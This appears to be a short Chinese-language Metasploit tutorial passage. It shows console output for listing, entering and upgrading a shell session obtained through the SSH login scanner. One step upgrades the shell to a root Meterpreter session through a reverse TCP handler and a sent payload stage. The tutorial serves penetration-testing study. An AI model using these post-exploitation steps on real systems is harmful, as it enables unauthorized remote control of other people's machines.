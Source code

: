 

**查看会话列表**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type         Information    Connection
  --  ----  ----         -----------    ----------
  1         shell linux  SSH unknown @  10.10.10.10:39051 -> 10.10.10.10:22 (10.10.10.10)
```



**进入会话（Ctrl + Z / background 退出会话）**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

ls
aaa.sh
dict
hack
include
man
shell
soft
tools
x.xml
^Z
Background session 1? [y/N]  y
```



**升级会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.10.10:4433 
[*] Sending stage (1017704 bytes) to 10.10.10.10
[*] Meterpreter session 2 opened (10.10.10.10:4433 -> 10.10.10.10:44832) at 2025-02-26 06:37:01 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
```



**会话列表**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         shell linux            SSH unknown @          10.10.10.10:39051 -> 10.10.10.10:22 (10.10.10.10)
  2         meterpreter x86/linux  root @ 172.16.100.100  10.10.10.10:4433 -> 10.10.10.10:44832 (10.10.10.10)
```
